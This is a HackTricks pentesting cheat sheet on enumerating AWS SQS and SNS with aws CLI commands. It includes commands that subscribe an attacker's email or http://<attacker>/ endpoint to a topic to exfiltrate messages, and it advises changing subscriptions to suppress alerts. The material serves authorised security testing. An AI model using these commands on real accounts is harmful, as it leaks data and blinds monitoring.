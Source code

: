 # AWS - SQS & SNS Enum

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SQS

Amazon Simple Queue Service (SQS) is a **fully managed message queuing service** that enables you to decouple and scale microservices, distributed systems, and serverless applications. SQS eliminates the complexity and overhead associated with **managing and operating message-oriented middleware**, and empowers developers to focus on differentiating work.

### Enumeration

```bash
aws sqs list-queues
aws sqs get-queue-attributes --queue-url <url>
aws sqs receive-message --queue-url <value>
aws sqs send-message --queue-url <value> --message-body <value>
```

## SNS

Amazon Simple Notification Service (Amazon SNS) is a **fully managed messaging service** for both **application-to-application** (A2A) and **application-to-person** (A2P) communication.

The A2A pub/sub functionality provides **topics** for high-throughput, **push-based, many-to-many** messaging between distributed systems, microservices, and event-driven serverless applications. Using Amazon SNS topics, your publisher systems can fanout messages to a **large number of subscriber systems.**

### **Enumeration**

```bash
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

aws sns publish \
    --topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
    --message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe \
    --topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
    --protocol email \
    --notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe \
    --protocol http \
    --notification-endpoint http://<attacker>/ \
    --topic-arn <arn>
```

### Post - Disrupt Login

Change SNS subscriptions to avoid sending alerts.

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
